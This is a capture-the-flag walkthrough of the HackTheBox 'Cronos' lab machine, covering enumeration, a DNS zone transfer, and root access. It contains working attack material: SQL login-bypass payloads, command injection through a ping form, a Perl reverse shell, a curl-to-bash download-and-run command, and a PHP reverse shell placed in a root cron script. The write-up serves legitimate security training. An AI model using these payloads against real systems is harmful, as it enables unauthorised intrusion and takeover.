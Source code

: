 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is a Linux (ubuntu) machine which i found interesting to solve. Below i'll log how i approached it and what more could be done.

## Enumeration
Lets first scan the box with nmap to see services running. I used below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts (`-sC`), version detection (`-sV`) and creates output in various file formats.
<br/>

The scan gives the following output:
![](./images/cronos_nmap)

We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check out website running on port 80, it just gives us default Apache page. I tried gobuster on it but found no directories.
![](./images/cronos_apacheDefault.png)

Then i turned my attention to port 53, I had no idea about ISC BIND service running. Searching the internet provided good idea about it.
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Now i looked at `searchsploit` for known exploits, spent some time with the exploits that came up, but they also didn't work.

After a while i queried the server for its reverse DNS record, i used command `dig @10.10.10.13 -x 10.10.10.13`
Below we can see, it worked:
![](./images/cronos_dig1.png)

I have new domains. So i added ns1.cronos.htb and cronos.htb to my host file.
Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end.

Now, since this is a DNS Server, it tried zone transfer and it worked. See below:
![](./images/cronos_dig.png)
Also, it revealed admin portal. admin.cronos.htb

Now i visited admin.cronos.htb and was greeted with a login form as shown below
![](./images/cronos_adminpanel.png)

I tried with few basic payloads and got in with simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`  worked.
    
Below is the request in Burp 
![](./images/cronos_authbypass.png)

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be run. 

I verified if i could ping my machine and it did, below we can see used tcpdump to capture ping request coming to my machine.
![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get command execution here.
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory. Great! We have command execution.

Next i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>
Payload using perl reverse shell
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
![](./images/cronos_perlshell.png)

Below i got the session :)
![](./images/cronos_rshell1.png)

Now, we have session on the server. we see a home directory of user `noulis` and there we get our `user.txt` flag.

Next task: Priveldge escalation.

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.

Start a local python server  : `$ python -m SimpleHTTPServer 8181`
Download and run on attacker :  `$ curl http://10.10.14.7/linEnum.sh | bash`
![](./images/cronos_linEnum1.png)

Spent some times time looking at the output, its a lot. Then came across something interesting:
![](./images/cronos_linEnum1.png)
Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```

Uploading the PHP webshell
![](./images/cronos_exploitation.png)

Meanwhile, it set up a listener at port `4445`, and waited for shell to execute via cronjob.
After a minute, go the session :)
![](./images/cronos_root.png)

Now, Cronos is Owned. 



